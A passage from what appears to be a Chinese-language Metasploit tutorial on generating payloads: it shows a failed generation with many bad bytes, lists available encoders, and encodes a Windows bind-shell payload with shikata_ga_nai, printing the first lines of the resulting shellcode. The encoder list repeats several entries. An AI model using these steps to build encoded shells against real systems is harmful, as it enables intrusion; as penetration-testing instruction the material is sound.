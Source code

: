 ##### 载荷生成失败

虽然Metasploit能够替换或编码不希望出现的字符，但也不总是成功。如果有过多的约束字节，编码器可能会失效，此时会有如下显示：

```shell
msf  payload(shell_bind_tcp) > generate -b '\x00\x44\x67\x66\xfa\x01\xe0\x44\x67\xa1\xa2\xa3\x75\x4b\xFF\x0a\x0b\x01\xcc\6e\x1e\x2e\x26'

[-] Payload generation failed: No encoders encoded the buffer successfully.

```

##### 选择编码器

当metasploit没有自动选对编码器时，可以自己定制。

使用 ```show encoders``` 可以显示当前任务可用的编码器：

```shell
msf  payload(shell_bind_tcp) > show encoders

Encoders
========

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
...snip...
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/nonalpha                             low        Non-Alpha Encoder
   x86/nonupper                             low        Non-Upper Encoder
   x86/shikata_ga_nai                       excellent  Polymorphic XOR Additive Feedback Encoder
   x86/single_static_bit                    manual     Single Static Bit
   x86/unicode_mixed                        manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
   x86/unicode_upper                        manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```

使用 ```-e``` 参数可以指定编码器，使用 ```-f``` 参数可以将我们生成的载荷保存在一个文件中。例如：

```
msf  payload(shell_bind_tcp) > generate -b '\x00' -e x86/shikata_ga_nai -f /root/msfu/filename.txt
[*] Writing 1803 bytes to /root/msfu/filename.txt...
msf  payload(shell_bind_tcp) > cat ~/msfu/filename.txt
[*] exec: cat ~/msfu/filename.txt

# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xcb\xb8\x4f\xd9\x99\x0f\xd9\x74\x24\xf4\x5a\x2b\xc9" +
"\xb1\x56\x31\x42\x18\x83\xc2\x04\x03\x42\x5b\x3b\x6c\xf3" +
"\x8b\x32\x8f\x0c\x4b\x25\x19\xe9\x7a\x77\x7d\x79\x2e\x47" +
```